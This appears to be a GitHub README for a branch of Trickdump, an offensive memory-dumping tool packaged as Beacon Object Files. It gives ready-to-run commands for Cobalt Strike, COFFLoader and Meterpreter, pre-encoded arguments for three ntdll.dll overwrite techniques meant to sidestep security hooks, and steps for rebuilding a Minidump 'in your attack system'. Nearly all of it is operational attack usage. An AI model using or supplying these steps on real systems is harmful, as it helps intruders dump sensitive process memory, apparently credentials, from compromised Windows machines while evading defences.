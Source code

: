 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).


-----------------------------------------

## Cobalt Strike

You can execute the BOF files after importing each aggressor script:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

You can use use an argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)


I could not create a ZIP file using BOF files so the memory region dumps are created in a directory with a random name.

Use the updated *create_dump.py* script to generate the Minidump file in your attack system using the *-d* parameter for the directory path:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-d BARREL_DIRECTORY] [-o OUTPUT_FILE]
```

![bof5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF5.png)

If you prefer to generate all the files at the same time you can run Trick instead:

```
trick <OVERWRITE_TECHNIQUE>
``` 

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Examples running each one with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

And create the Minidump file:

![img11](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF11.png)

Or create all at the same time with Trick:

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)

![img13](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF13.png)

--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the execute_bof module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o <OVERWRITE_TECHNIQUE>
```

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)

Then create the Minidump file:

![img15](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF15.png)

The same happens with the Trick BOF:

```
execute_bof trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img16](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF16.png)

![img17](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF17.png)
